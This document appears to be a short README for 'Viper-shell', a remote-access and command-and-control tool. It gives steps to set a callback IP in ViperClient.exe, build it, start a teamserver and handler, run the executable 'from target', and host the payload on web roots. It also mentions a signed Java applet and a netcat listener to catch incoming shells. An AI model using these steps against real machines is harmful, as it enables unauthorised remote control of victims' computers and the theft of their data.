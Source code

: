 ```


```


### Viper Tricks

Change the connection ip address inside the ViperClient.exe file. Then build the .exe file with Client2exe.sh


### start viper-shell
```
from main folder

./start-teamserver.sh   

from services folder

./teamserverdev.py

run handler

set local ip address  > Then run .exe from target

```
### start viper web

```
startweb

$ Viper]}>> startweb
[*] - Starting the webserver reactor
[*] - The webserver is listening on 127.0.0.1:8090
[*] - The reactor is running
[*] - If you deploy the java signed applet then start netcat listener first with nc -lvp 443
$ Viper]}>> 

```

#### Viper Build fang // viperclient.exe

viper has a client and server built in. 

for now the best way to generate the client is to navigate to the payloads folder and chege the ip address within ViperClient.exe then

```
/home/viper-shell/application/payloads# ./Client2exe.sh

cp ViperClient.exe /home/viper-shell/application/www/html/ViperClient.exe

and

cp ViperClient.exe /var/www/html/public/ViperClient.exe
```
